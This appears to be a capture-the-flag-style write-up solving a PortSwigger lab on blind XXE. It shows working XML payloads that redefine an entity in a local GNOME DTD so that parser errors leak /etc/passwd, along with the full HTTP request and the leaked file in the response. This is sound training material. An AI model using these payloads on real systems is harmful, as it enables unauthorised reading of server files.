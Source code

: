 ## Exploiting XXE to retrieve data by repurposing a local DTD

**Title:** Exploiting XXE to retrieve data by repurposing a local DTD. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)

**Description:** This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file. You'll need to reference an existing DTD file on the server and redefine an entity from it.

__Hint__

Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`.

## Preface

The preceding technique works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the `DOCTYPE` element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

So what about blind XXE vulnerabilities when out-of-band interactions are blocked? You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In this situation, it might still be possible to trigger error messages containing sensitive data, due to a loophole in the XML language specification. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

This means that an attacker can employ the error-based XXE technique from within an internal DTD, provided the XML parameter entity that they use is redefining an entity that is declared within an external DTD. Of course, if out-of-band connections are blocked, then the external DTD cannot be loaded from a remote location. Instead, it needs to be an external DTD file that is local to the application server. Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data.

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

``` XML
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.

- Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the error-based XXE exploit that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.

- Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

__Locating an existing DTD file to repurpose__

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

``` XML
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search. 

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My Thought

At first we visited a product page and clicked "Check stock" to intercept the resulting POST request in Burp Suite. We inserted the following parameter entity definition in between the XML declaration and the `stockCheck` element:

``` XML
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.

**Request**

``` HTTP
POST /product/stock HTTP/2
Host: 0ac600d503444681800c44e30096000f.web-security-academy.net
Cookie: session=aZJuFcgJTfi6B4EljfZYBE2KHwgTtvAq
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac600d503444681800c44e30096000f.web-security-academy.net/product?productId=14
Content-Type: application/xml
Content-Length: 108
Origin: https://0ac600d503444681800c44e30096000f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
<productId>14</productId>
<storeId>3</storeId>
</stockCheck>
```

**Response**
``` HTTP

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2419

"XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false (No such file or directory)"
```
And we solved the lab.
